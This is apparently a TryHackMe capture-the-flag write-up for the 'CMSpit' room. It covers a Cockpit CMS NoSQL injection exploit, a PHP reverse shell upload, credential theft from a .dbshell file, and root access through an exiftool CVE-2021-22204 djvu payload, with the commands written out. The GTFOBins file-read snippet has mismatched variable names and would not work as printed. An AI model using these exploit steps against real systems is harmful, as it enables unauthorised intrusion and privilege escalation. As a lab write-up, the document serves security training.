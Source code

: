 Room: [CMSpit](https://tryhackme.com/room/cmspit)

Difficulty: Medium

Overview: In this room we are going to exploit a NoSQL injection vulnerability on CMS concrete5 webserver, privesc horizontaly and then verticaly taking advantage of a fresh exploit for a tool called Exiftool.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------

Let's start our enumeration fase with "nmap" and search for all open ports on the target system:

```
nmap -sV -sC -p- cmspit.thm -oN nmap.txt

-sV    →  Probe open ports to determine service
-sC    →  Scan using the default set of scripts
-p-    →  Scan all ports
-oN    →  Save the ouput of the scan in a file
```

![image](https://user-images.githubusercontent.com/76821053/130663300-0daf3ea7-10d5-4683-a33b-c5c7f9926436.png)

There are only two open ports:

22  →  OpenSSH 7.2p2

80  →  Apache httpd 2.4.18

After visiting the webpage i was redirected to a login portal:

![image](https://user-images.githubusercontent.com/76821053/130663322-4f143cb8-3435-45e4-88ba-50a7688e3115.png)

To better analyze the webserver we can use “nikto” which performs comprehensive scan tests against web servers:

```
nikto -h http://cmspit.thm
```

![image](https://user-images.githubusercontent.com/76821053/130663353-a2ccd257-07b3-4d01-8ecb-0dc3e8006878.png)

We found a file that contains usefull information:

![image](https://user-images.githubusercontent.com/76821053/130663377-8f4148cd-2a5b-4c3f-bd21-643e16fe622a.png)

Now that we have information about the content management system, its name and version. We can search [exploit-db](https://www.exploit-db.com/) for a possible exploit:

![image](https://user-images.githubusercontent.com/76821053/130663403-9d54e3c6-a765-4daf-a9b4-08c50504ec5f.png)

There is a exploit with a CVE number of CVE-2020-35846. This exploit takes advantage of NoSQL injection in /auth/check path which will let us do some username enumeration and password reset. You can find more information about this exploit at [PT SWARM webpage](https://swarm.ptsecurity.com/rce-cockpit-cms/). They have a brake down of this exploit in detail. 

So to automate this process we are going to use the exploit script that we found at exploit-db, this exploit is a combination of CVE-2020-35847 and CVE-2020-35848:

```
python3 cockpit_exploit.py -u http://cmspit.thm
```

![image](https://user-images.githubusercontent.com/76821053/130663470-7bb60910-680e-4aec-9bd0-68d46564bd08.png)

This exploits found all the users in the database. If we want to find the email address of "skidy" we can just rerun the exploit and choose a diferent username:

![image](https://user-images.githubusercontent.com/76821053/130663496-d0b3c798-24e7-4640-abf4-d8b03f6727a4.png)

Now we can login to the webserver with the newly created “admin” credentials:

![image](https://user-images.githubusercontent.com/76821053/130663516-5053baa8-cd6f-4d15-806a-2512f7f42c54.png)

After browsing the admin dashboard there is an option to upload files to the webserver, so we are going to upload a php payload to get a reverse shell connection.

The php payload that i like to use is from “pentestmonkey”, you can download it from his [github page](https://github.com/pentestmonkey/php-reverse-shell).

Change this two parameters, ip and port:

![image](https://user-images.githubusercontent.com/76821053/130663540-5c05d719-94e6-439a-b53f-206f262673c0.png)

To upload the shell. From the dashboard choose “Finder”:

![image](https://user-images.githubusercontent.com/76821053/130663563-b91138cc-6ab9-4009-9767-cbc01e77e4c8.png)

And upload the payload to, for example "install" directory:

![image](https://user-images.githubusercontent.com/76821053/130663586-83207272-723b-47fb-a639-d2d48cf71e96.png)

To trigger the payload we just need to go to the correct url path:

```
http://ip_of_room/install/php-reverse-shell.php
```

![image](https://user-images.githubusercontent.com/76821053/130663629-5503c09d-f36f-4308-b871-2495679f7ce4.png)

And in our listener we receiver a shell:

![image](https://user-images.githubusercontent.com/76821053/130663675-ad2eea14-f9e1-47cd-8488-6e7bfaaccc6f.png)

To upgrade our shell to a tty one we can use this python command:

```
python3 -c "__import__('pty').spawn('/bin/bash')"
```

![image](https://user-images.githubusercontent.com/76821053/130663702-5dc9d078-ab92-4e14-8bd3-eb5f7131727e.png)

We can find the web flag at "/var/www/html/cockpit". Everytime we need to find a web related flag we should always start at the home of html path server:

![image](https://user-images.githubusercontent.com/76821053/130663729-dd85466a-fdd9-49f2-9132-45cbeb648058.png)

Enumerating the machine further we can escalate our privileges by checking user “stux” home directory:

![image](https://user-images.githubusercontent.com/76821053/130663754-dc274087-e2ce-4029-93c7-ffbd6ed376fc.png)

Inside his directory there is a database file called ".dbshell":

![image](https://user-images.githubusercontent.com/76821053/130663779-eb933f36-b75d-4d7b-bc93-6905a3e16ba9.png)

We have credentials for “stux” so let's login into that user:

```
su stux
```

![image](https://user-images.githubusercontent.com/76821053/130663805-9ec8f3dc-3051-4d67-ab83-c5983d2d3764.png)

With “stux” we can read the user flag:

![image](https://user-images.githubusercontent.com/76821053/130663832-2c8b4b5a-ace7-44f2-8235-22655cddf6dc.png)

Now that we are user “stux” let's check his sudo permitions:

```
sudo -l
```

![image](https://user-images.githubusercontent.com/76821053/130663855-4e1a96a9-728a-4e07-9502-3f325f75aee3.png)

“stux” can ran sudo on "exiftool" has user “root”. So let's head to [GTFOBins](https://gtfobins.github.io/gtfobins/exiftool/) and to see if there is any way we can exploit exiftool:

![image](https://user-images.githubusercontent.com/76821053/130663871-e38f081a-bb67-45b9-966e-72e01700391d.png)

Having sudo permissions to run exiftool we can easily read the root.txt flag if we follow GTFOBins read method:

```
LFILE=/root/root.txt
OUPUT=/home/stux/privesc
sudo exiftool -filename=$OUTPUT $FILE
cat $OUTPUT
```

![image](https://user-images.githubusercontent.com/76821053/130663893-48a725d2-e7b5-4477-9f3e-16078500ae52.png)

Now, if we want to escalate our privileges to “root” user we need to take advantage of a exiftool vulnerability.

This vulnerability has a CVE number of CVE-2021-22204:

![image](https://user-images.githubusercontent.com/76821053/130663938-2eca61ed-b152-4ccf-91da-e6ec19299961.png)

There is an awesome report on this bug in detail by [Convisoappsec](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/).

There you will learn how to exploit the system by taking advantage of a tool called “djvumake”:

![image](https://user-images.githubusercontent.com/76821053/130663950-83e3b5d6-f2ce-4c87-b56e-7792eeb7ebf0.png)

Let's follow the steps and reproduce this vulnerability:

First we need to create a payload and save it to a file:

```
(metadata “\c${system('/bin/bash -p')};”)
``` 

![image](https://user-images.githubusercontent.com/76821053/130663968-94c0b308-a329-407c-8464-645d172a41be.png)

Next we need to compress the payload, create a .djvu file and trigger the exploit with exiftool:

```
bzz payload payload.bzz

djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz

sudo exiftool exploit.djvu
```

![image](https://user-images.githubusercontent.com/76821053/130664000-ce9897db-e146-42f2-91f1-ecbd612c1ea6.png)

Success, we are now “root”!!!

We can access “root's” directory directly and read the root.txt file:

![image](https://user-images.githubusercontent.com/76821053/130664023-d82d961c-e580-4015-a5b0-a5df97ce2c63.png)
















